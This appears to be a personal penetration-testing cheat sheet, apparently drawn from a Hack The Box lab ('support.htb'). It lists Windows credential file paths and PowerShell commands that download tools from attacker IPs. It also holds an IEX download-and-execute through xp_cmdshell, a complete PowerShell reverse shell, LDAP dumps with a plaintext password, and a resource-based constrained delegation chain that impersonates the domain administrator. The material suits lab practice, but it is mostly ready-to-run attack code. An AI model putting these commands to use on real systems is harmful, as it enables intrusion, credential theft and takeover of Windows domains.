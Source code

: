 ### File and directory
#### ssh key location
`file:///C:/Users/user/.ssh/id_rsa`
#### File may contain password information
`C:\Users\user\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine
 ConsoleHost_history.txt`


### Command
#### Download file in powershell
```powershell
IWR -useBasicParsing http://10.10.14.21:8000/nc.exe -o nc.exe
```
```powershell
wget http://10.10.14.30/winpeasx64.exe -outfile winpeasx64.exe
```

#### Execute command from remote file
```powershell
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.30/shell.ps1\");"
```

#### Perpare reverse shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.30",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

#### LDAP
- #### Test connection
    ```bash
    ldapdomaindump -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' dc.support.htb
    ```
- #### Dump data
    ```bash
    ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
    ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb'
    ```

### Windows AD evaluation
- #### Evil-WinRM
    - Source:  https://github.com/Hackplayers/evil-winrm
    - Try to access Microsoft Windows Servers with cred
    - Usage:
        ```bash
        evil-winrm -i ip -u user -p password # Login
        upload /usr/share/metasploit-framework/data/post/SharpHound.exe sh.exe # file upload
        ```
    - Add admin account
        Refer from https://cybergladius.com/htb-walkthrough-support/ 
        ```bash
        # Windows side
        upload /tmp/Powermad.ps1 Powermad.ps1
        upload /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 PowerView.ps1
        Import-Module .\Powermad.ps1
        Import-Module .\PowerView.ps1
        New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
        Set-ADComputer dc -PrincipalsAllowedToDelegateToAccount fake01$
        ./rubeus.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
        
        # Kali side
        getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
        export KRB5CCNAME=administrator.ccache
        smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
        ```

### Check for reg file
- #### reglookup